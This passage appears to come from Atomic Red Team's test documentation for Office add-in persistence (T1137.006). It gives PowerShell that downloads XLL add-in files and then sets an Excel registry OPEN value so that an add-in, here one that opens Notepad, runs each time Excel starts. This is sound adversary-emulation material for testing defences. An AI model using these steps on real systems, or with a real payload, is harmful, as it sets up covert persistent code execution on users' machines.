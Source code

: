 ##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x64.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll"
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/excelxll_x86.xll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll"
```




<br/>
<br/>

## Atomic Test #2 - Persistent Code Execution Via Excel Add-in File (XLL)
Creates an Excel Add-in file (XLL) and sets a registry key to make it run automatically when Excel is started
The sample XLL provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows


**auto_generated_guid:** 9c307886-9fef-41d5-b344-073a0f5b2f5f






#### Attack Commands: Run with `powershell`! 


```powershell
$excelApp = New-Object -COMObject "Excel.Application"
if(-not $excelApp.path.contains("Program Files (x86)")){
    Write-Host "64-bit Office"
    Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
$ver = $excelApp.version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\Excel\Options"
Remove-Item $ExcelRegPath -ErrorAction Ignore
New-Item -type Directory $ExcelRegPath | Out-Null
New-ItemProperty $ExcelRegPath OPEN -value "/R notepad.xll" -propertyType string | Out-Null
$excelApp.Quit()
Start-Process "Excel"
```
